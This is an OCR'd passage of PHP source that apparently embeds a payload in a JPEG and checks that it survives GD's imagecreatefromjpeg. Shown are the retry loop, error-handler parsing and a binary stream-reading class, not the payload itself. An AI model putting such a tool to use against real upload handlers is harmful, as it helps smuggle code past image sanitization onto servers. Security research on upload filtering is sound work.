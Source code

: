 ```plain
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
 
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
 
    class DataInputStream {
        private $binData;
        private $order;
        private $size;
 
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }
 
        public function seek() {
            return ($this->size - strlen($this->binData));
        }
 
        public function skip($skip) {
```